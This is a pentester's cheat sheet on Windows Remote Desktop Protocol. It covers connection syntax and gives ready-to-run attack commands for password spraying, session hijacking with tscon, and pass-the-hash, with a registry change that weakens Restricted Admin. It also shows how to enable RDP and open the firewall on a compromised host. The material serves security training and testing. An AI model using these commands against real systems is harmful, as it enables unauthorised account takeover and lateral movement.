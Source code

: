 # RDP

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Remote Desktop Protocol (RDP)**</mark> is a <mark style="color:purple;">**protocol**</mark> developed by **Microsoft** for remote access to a computer running the Windows OS. This protocol allows display and control commands to be transmitted via the **GUI** encrypted over **IP** networks. Works at <mark style="color:yellow;">**Application Layer**</mark> of **TCP/IP model**, typically using <mark style="color:yellow;">**TCP/3389 port.**</mark>  If **Network Address Translation (NAT)** is used on the route between client and server, as is often the case with Internet connections, the remote computer needs the public IP address to reach the server. It uses <mark style="color:yellow;">**TLS/SSL**</mark>.

## <mark style="color:yellow;">CONNECTING</mark>

### <mark style="color:blue;">Rdesktop</mark>

```bash
rdesktop -u venator17 -p 'amogus' -d domain.kek 13.13.13.13
```

### <mark style="color:blue;">Xfreerdp</mark>

#### Regular

<pre class="language-powershell"><code class="lang-powershell"><strong>xfreerdp /u:venator17 /p:amogus /v:13.13.13.13 /d:domain.kek /cert:ignore
</strong></code></pre>

#### With Port-Forwarding

```powershell
xfreerdp /u:venator17 /p:amogus /v:localhost:3389 /d:domain.kek /cert:ignore
```

#### Mounting a local dir

```powershell
xfreerdp /v:13.13.13.13 /u:venator17 /p:amogus /drive:share,/home/venator17/Assessment123
```

### <mark style="color:blue;">Remmina (GUI)</mark>

```bash
reminna
```

## <mark style="color:yellow;">PASSWORD SPRAYING</mark>

### <mark style="color:blue;">Crowbar</mark>

```bash
crowbar -b rdp -s 13.13.13.13/32 -U users.txt -c 'amogus'
```

### <mark style="color:blue;">Hydra</mark>

```bash
hydra -L users.txt -p 'amogus' 13.13.13.13 rdp
```

## <mark style="color:yellow;">SESSION HIJACKING</mark>

<mark style="color:orange;">**We need SYSTEM privileges**</mark> and use <mark style="color:green;">**tscon.exe**</mark> (allows to connect to another desktop session) [**\[LINK\]**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon)

```powershell
tscon 13 /dest:V17
```

## <mark style="color:yellow;">PASS-THE-HASH</mark>

By default, Windows has disabled <mark style="color:green;">`Restricted Admin Mode`</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">`DisableRestrictedAdmin`</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:green;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:venator17 /pth:12379NSKDFKSJDF20931C031
```

## <mark style="color:yellow;">ENABLE FROM SYSTEM</mark>

As example one time I needed to access internal host, so it would be good if I turned on rdp and made a port forwarding, So here's the steps do do it

1. Change <mark style="color:green;">`fDenyTSConnections`</mark>  Registry key which denies RDP connections

```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# OR same thing but with PowerShell, to convenience

Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
```

2. Changing a Firewall to allow us to move through RDP

```powershell
netsh advfirewall firewall set rule group='remote desktop' new enable=yes
```

## <mark style="color:yellow;">Tips2Hack</mark>

1. **Nmap RDP Scan**

```bash
nmap -sV -sC 13.13.13.13 -p3389 --script rdp*
```

2. **RDP Security Check** [**\[LINK\]**](https://github.com/CiscoCXSecurity/rdp-sec-check)

```bash
./rdp-sec-check.pl 13.13.13.13
```
